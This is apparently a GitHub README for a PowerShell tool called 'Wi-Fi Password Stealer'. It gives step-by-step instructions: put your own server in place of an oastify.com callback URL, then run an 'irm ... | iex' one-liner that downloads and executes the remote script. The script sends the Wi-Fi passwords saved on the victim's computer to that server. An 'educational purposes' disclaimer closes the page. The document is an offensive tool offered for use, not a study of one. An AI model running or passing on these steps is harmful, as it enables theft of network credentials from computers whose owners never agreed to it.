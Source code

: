 ### Wi-Fi Password Stealer

**How to use?**
1. Fork the repository [Wi-Fi Password Stealer](https://github.com/Spandanpokh/Wi-Fi-Password-Stealer).
2. In `main.ps1` (Line 10), replace `https://69dpxu7o7xx63sjquol1ttpqphv7jw.oastify.com` with your server's URL.
3. Get its RAW file, for example: `https://raw.githubusercontent.com/Spandanpokh/Wi-Fi-Password-Stealer/main/main.ps1`
4. Open your PowerShell and execute the following command:
   `irm https://raw.githubusercontent.com/Spandanpokh/Wi-Fi-Password-Stealer/main/main.ps1 | iex`
   
   ![image](https://github.com/Spandanpokh/Wi-Fi-Password-Stealer/assets/98866320/f755104c-249e-4c00-bd8e-b46cb907d64c)
   
6. You'll receive the Wi-Fi passwords saved on the computer on your server.
   ![burp](https://github.com/Spandanpokh/Wi-Fi-Password-Stealer/assets/98866320/11a00636-6f8a-4ef9-b90e-1fc71657949e)


> This is intended exclusively for educational purposes and should be used solely for learning and understanding. We want to emphasize that we are not responsible for any misuse or unauthorized access to Wi-Fi networks that may result from the use of this tool.
